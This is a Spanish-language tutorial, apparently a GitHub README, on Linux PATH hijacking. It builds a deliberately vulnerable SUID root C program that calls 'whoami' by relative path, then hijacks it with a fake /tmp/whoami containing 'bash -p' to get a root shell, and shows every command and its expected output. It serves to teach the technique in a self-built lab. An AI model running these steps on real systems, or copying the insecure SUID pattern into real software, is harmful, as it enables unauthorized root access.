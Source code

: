 # Hijacking | Secuestro
El hijacking consiste en dueñarse o robar algo por parte de un atacante.

## Path hijacking

El path hijacking como su nombre lo indica, se refiere al secuestro del path. <br>

El PATH es una variable de entorno que contiene la dirección absoluta de los binarios que se ejecutarán respecto al usuario en sesión. <br>

## Ruta relativa | Ruta relativa

Ruta absoluta: <br>
- Se indica toda la ruta del archivo incluyendo el directorio raíz. Por ejemplo: <br>
```
/bin/ls
```
Ruta relativa: <br>
- se indica la ruta a partir de donde este en ese momento situado. Por ejemplo, si se ejecuta 'ls', la ruta será:
```
/usr/bin/ls
```

## El PATH

Para realizar la explotación de la vulnerabilidad se modificaré el PATH del sistema. <br>
El PATH contiene la información de la ruta, de las variables a las que se accede. <br>
Es el caso de la ruta relativa, cuando se ejecuta 'ls', el path hace referencia al binario ubicado en '/usr/bin/ls' <br>

## Vulnerabilidad

La explotación consciste en modificar el PATH, para que en lugar de ejecutar la ruta relativa, utilicé la ruta absoluta como root. <br>

Para este documentó se hará aprovechandose de un binario creado por root, y con persmisos SIUD.

## Creando binario SUID (set user id)

Crearemos nuestro propio binario que ejecutará un 'whoami' escrito en C. Llamado 'programa.c'

```
#include <stdio.h>

void main(){

   setuid(0);

   printf("Ejecutando con el usuario: (/usr/bin/whoami): ruta absoluta\n");
   system("/usr/bin/whoami");

   printf("Ejecutando con el usuario: (whoami): ruta realtiva\n");
   system("whoami");
}
```
El comando setuid(0), es porque por defecto, cuando se trata de escalar privilegios en programa escrito en C, deshabilita la posibilidad de escalar con el SUID 0, ya que es el de root.<br>
Entonces estableciendo ese comando, se pude realizar el escalamiento. <br>

Una vez creado, se compila. Se debe hacer con el usuario root, o posteriormente cambiar el propietario y el grupo al que pertenece.
```
# Sin ser el usuario root pero con permisos de sudo
gcc programa.c -o binario
sudo chown root:root binario
sudo chmod 4755 binario

# Siendo el usuario root
gcc programa.c -o binario
chmod 4755 binario
```
Y debería verse de la siguiente forma usando ls -la
```
-rwsrwxr-x. 1 root root 25224 Mar 30 18:11 binario
```

## Explotando vulnerabilidad - Path Hijacking & SUID

A través del programa export, se pueden definir la variables del sistema. <br>
Se utilizará export para modificar el PATH. <br>

Pero antes de hacerlo, debemos crear un fichero que contenga el comando con el que escalaremos aprovechando SUID. <br>

```
cd /tmp
touch whoami
chmod 755 whoami
echo "bash -p" > whoami
```
De esa forma nos devolverá una shell con privilegios de root. <br>
Ahora volvemos a la ruta del binario, y se modificará el PATH: <br>
```
cd -
export PATH=/tmp:$PATH
```
El comienzo del path, se debería ver de la siguiente forma usando echo $PATH
```
/tmp:/usr/local/bin ...
```

Se ejecuta el script:
```
./binario
```
Se debería mostrar lo siguiente:
```
Ejecutando con el usuario: (/usr/bin/whoami): ruta absoluta
root
Ejecutando con el usuario: (whoami): ruta realtiva
bash-5.0#
```
Si todo se realizó bien, en este punto ya se tiene acceso a root. <br>
Se puede compobar ejecutando:
```
whoami
touch file
la -la
```
Y la salida debería ser la siguiente
```
root
-rw-r--r--. 1 root tony     0 Mar 30 18:28 file
```
El fichero fué creado por el usuario root.

